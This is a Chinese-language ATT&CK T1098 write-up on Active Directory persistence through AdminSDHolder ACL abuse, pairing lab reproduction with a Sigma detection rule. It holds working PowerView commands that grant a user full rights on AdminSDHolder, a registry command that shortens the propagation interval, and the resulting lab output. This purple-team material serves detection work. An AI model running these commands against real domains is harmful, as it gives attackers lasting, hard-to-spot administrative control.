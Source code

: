 # T1098-Windows-AdminSDHolder

## 来自ATT&CK的描述

帐户操作可以帮助攻击者维持在环境中对凭据和某些权限级别的访问。账户操作可能包括修改权限，修改凭据，添加或更改权限组，修改帐户设置或修改执行身份验证等方式。为了创建或操纵帐户，攻击者必须已经对系统或域具有足够的权限。

## 测试案例

AdminSDHolder是一个特殊的AD容器，具有一些默认安全权限，用作受保护的AD账户和组的模板。

Active Directory将采用AdminSDHolder对象的ACL并定期将其应用于所有受保护的AD账户和组，以防止意外和无意的修改并确保对这些对象的访问是安全的。

如果能够修改AdminSDHolder对象的ACL，那么修改的权限将自动应用于所有受保护的AD账户和组，这可以作为一个域环境权限维持的方法。

## 检测日志

windows 安全日志

## 测试复现

### 完整利用过程

1.枚举受保护的AD账户和组中的信息

查找有价值的用户，需要确认该用户是否属于受保护的AD账户和组，排除曾经属于受保护的AD账户和组。

2.向AdminSDHolder对象添加ACL

例如添加用户testa对AdminSDHolder的完全访问权限。

默认等待60分钟以后，testa获得对所有受保护的AD账户和组的完全访问权限。

可以通过修改注册表的方式设置权限推送的间隔时间，注册表位置如下：

```reg
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NTDS\Parameters,AdminSDProtectFrequency,REG_DWORD
```

例如修改成等待600秒的命令如下：

```reg
reg add hklm\SYSTEM\CurrentControlSet\Services\NTDS\Parameters/v AdminSDProtectFrequency /t REG_DWORD/d 600
```

参考资料：<https://blogs.technet.microsoft.com/askds/2009/05/07/five-common-questions-about-adminsdholder-and-sdprop/>

**注：不建议降低默认间隔时间，因为在大型环境中可能会导致LSASS性能下降。**

3.获得对整个域的控制权限

(1)用户testa能够向域管理员组添加帐户。

验证权限的命令如下：

```powershell
Import-Module .\PowerView.ps1
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference-match'xiaomi'}
```

(2)用户testa能够直接访问域控制器上的文件。

### 测试过程

1.查询AdminSDHolder对象的ACL
查询AdminSDHolder对象的ACL等价于查询"CN=AdminSDHolder,CN=System,DC=xiaomi,DC=org"的ACL。

命令如下：

```powershell
Import-Module .\PowerView.ps1
Get-ObjectAcl -ADSprefix "CN=AdminSDHolder,CN=System"|select IdentityReference
```

真实测试情况

```powershell
PS C:\Users\Administrator\Desktop\mimikatz_trunk> Import-Module .\PowerView.ps1
PS C:\Users\Administrator\Desktop\mimikatz_trunk> Get-ObjectAcl -ADSprefix "CN=AdminSDHolder,CN=System"|select IdentityR
eference

IdentityReference
-----------------
NT AUTHORITY\Authenticated Users
NT AUTHORITY\SYSTEM
BUILTIN\Administrators
XIAOMI\Domain Admins
XIAOMI\Enterprise Admins
Everyone
NT AUTHORITY\SELF
NT AUTHORITY\SELF
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Windows Authorization Access Group
BUILTIN\Terminal Server License Servers
BUILTIN\Terminal Server License Servers
XIAOMI\Cert Publishers
```

2.向AdminSDHolder对象添加ACL

添加用户xiaomi的完全访问权限，命令如下：

```powershell
Import-Module .\PowerView.ps1
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName xiaomi -Verbose -Rights All
```

注意:本文提到的百度社区参考链接此处存在问题。是Rights不是文中提到的Right

真实测试情况

```powershell
PS C:\Users\Administrator\Desktop\mimikatz_trunk> Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -Principal
SamAccountName xiaomi -Verbose -Rights All
详细信息: Get-DomainSearcher search string: LDAP://CN=AdminSDHolder,CN=System,DC=xiaomi,DC=org
详细信息: Get-DomainSearcher search string: LDAP://DC=xiaomi,DC=org
详细信息: Granting principal S-1-5-21-3576461989-1381017913-248049510-1104 'All' on
CN=AdminSDHolder,CN=System,DC=xiaomi,DC=org
详细信息: Granting principal S-1-5-21-3576461989-1381017913-248049510-1104 '00000000-0000-0000-0000-000000000000'
rights on CN=AdminSDHolder,CN=System,DC=xiaomi,DC=org
```

3.验证用户权限

等待六十分钟后，执行以下命令查询用户xiaomi的权限：

```powershell
Import-Module .\PowerView.ps1
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference-match'xiaomi'}
OR
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | select IdentityReference
```

4.删除AdminSDHolder中指定用户的ACL

搜索条件为"LDAP://CN=AdminSDHolder,CN=System,DC=test,DC=com"

删除用户xiaomi的完全访问权限，命令如下（执行失败）：

```powershell
Remove-DomainObjectAcl -TargetSearchBase "LDAP://CN=AdminSDHolder,CN=System,DC=xiaomi,DC=org" -PrincipalIdentity xiaomi -Rights All -Verbose
```

## 测试留痕

windows安全日志

## 检测规则/思路

### Sigma规则

```yml
title: Windows-AdminSDHolder
description: Windows server 2008 R2（AD域控）
references: 
    - https://github.com/infosecn1nja/AD-Attack-Defense/blob/master/README.md
    - https://github.com/0Kee-Team/WatchAD/blob/master/modules/detect/event_log/persistence/AdminSDHolder.py
tags: 1098
status: 测试阶段 
author: 12306Bro
logsource:
    product: windows
    service: security
detection:
    selection1:
        EventID: 5136  #已修改目录服务对象。AdminSDHolder更改，一般用作权限维持，因为更改情况极少
    selection2:
        EventID: 4780  #ACL设置在管理员组成员的帐户上
    timeframe: last 1h #默认等待60分钟之后生效，具体原因可参考下面SDPROP说明
    condition: all of them
level: medium
```

### 建议

时间范围问题，默认是60分钟后生效，故规则中两个事件之间时间区间范围为60分钟，可根绝实际情况进行修改。

## 参考推荐

域渗透——AdminSDHolder

<https://anquan.baidu.com/article/877>

PowerView

<https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1>

SDPROP说明

<https://xz.aliyun.com/t/7276>

MITRE-ATT&CK-T1098

<https://attack.mitre.org/techniques/T1098/>

